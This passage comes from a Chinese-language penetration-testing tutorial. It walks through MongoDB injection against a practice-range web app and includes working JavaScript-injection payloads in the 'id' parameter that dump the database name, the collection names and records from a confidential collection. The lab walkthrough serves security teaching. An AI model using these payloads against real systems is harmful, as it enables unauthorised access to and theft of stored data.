 ```
sudo apt-get install php-pear
sudo pecl install mongo
sudo apt-get install php-mongodb
```

## 0x04 MongoDB渗透

### SQL注入

这里以墨者靶场为例，源码如下：  
![1](https://image.3001.net/images/20220414/1649880207_62572c8fe0682323dab4f.jpg!small)

靶场漏洞地址如下：

```
http://219.153.49.228:45718/new_list.php?id=1
```

![截屏2021-11-08 上午12.01.13](https://image.3001.net/images/20220414/1649880209_62572c912b77f85a82700.png!small)

常规情况下通过单引号判断注入，返回不同页面说明存在注入点

```
/new_list.php?id=1'
```

![截屏2021-11-08 上午12.05.48](https://image.3001.net/images/20220414/1649880210_62572c923eba4ef5b70ca.png!small)

构造 payload 测试回显内容

```
/new_list.php?id=1'});return ({title:1,content:'2
```

![截屏2021-11-08 上午12.27.49](https://image.3001.net/images/20220414/1649880211_62572c93398948139702e.png!small)

成功爆出数据库名为`mozhe_cms_Authority`

```
/new_list.php?id=1'});return ({title:tojson(db),content:'1
```

![截屏2021-11-08 上午1.59.28](https://image.3001.net/images/20220414/1649880212_62572c94221456d3cf328.png!small)

成功爆出集合名，分别为`notice`、`Authority_confidential`、`system.indexes`

```
new_list.php?id=1'});return ({title:tojson(db.getCollectionNames()),content:'1
```

![截屏2021-11-08 上午2.01.01](https://image.3001.net/images/20220414/1649880213_62572c950c2f68355ca41.png!small)

针对集合`Authority_confidential`爆出对应文档

```
new_list.php?id=1'});return ({title:tojson(db.Authority_confidential.find()[0]),content:'1
new_list.php?id=1'});return ({title:tojson(db.Authority_confidential.find()[1]),content:'1
```
